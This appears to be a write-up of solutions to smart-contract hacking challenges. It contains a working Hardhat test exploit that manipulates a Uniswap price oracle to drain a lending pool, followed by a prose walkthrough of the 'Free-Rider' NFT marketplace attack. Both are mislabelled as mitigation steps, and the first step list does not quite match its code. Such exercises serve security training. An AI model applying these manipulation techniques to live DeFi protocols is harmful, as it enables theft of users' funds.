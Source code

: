 ```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        /*
        Steps of Mitigation
        1. First we deposit intial token balance into UniswapV2Pool to drop down the value of tokens and reduce the amount of WETH
        2. Then we convert ETH to WETH and our balance becomes near about 30 WETH
        3. As for now the price of Tokens has been dropped down now we can exchange it with WETH and get 1 Million token for under 30WETH
        4. Hehehehe we win
        */
        let amountIn;
    amountIn = PLAYER_INITIAL_TOKEN_BALANCE;
    await token.connect(player).approve(uniswapRouter.address, amountIn);
    let time = await helpers.time.latest();
    await uniswapRouter
      .connect(player)
      .swapExactTokensForETH(
        amountIn,
        1,
        [token.address, weth.address],
        player.address,
        time + 5000
      );

    await weth
      .connect(player)
      .deposit({ value: ethers.utils.parseEther("29.5") });

    await weth
      .connect(player)
      .approve(lendingPool.address, ethers.utils.parseEther("29.5"));
      
    await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```

# 10. Free-Rider

## Steps of Mitigation

1. We have a **low Ether** balance, so we simply need more ETH to buy NFTs.
2. To acquire Ether, we can use the **swap() function** of **UniswapV2Pair.** First, we obtain WETH, and then we invoke a **withdraw() function** from the WETH.sol contract to receive the desired ETH.
3. Once we have **withdrawn** the ETH, we proceed to purchase all six NFTs for a fixed price of **15 Ether**.
4. By buying these NFTs, our balance increases by approximately **90 ETH** since we receive a **refund** of 15 ETH for each NFT purchased. Additionally, we have deposited the required amount of WETH as collateral, as per the terms specified by the WETH contract.
5. After making the deposit, we transfer the WETH to the WETH contract to ensure that the repayment process does not **encounter any errors.**
6. At this point, everything is in order, and the final step is to send all the acquired NFTs to the **devContract** in order to claim our BOUNTY!
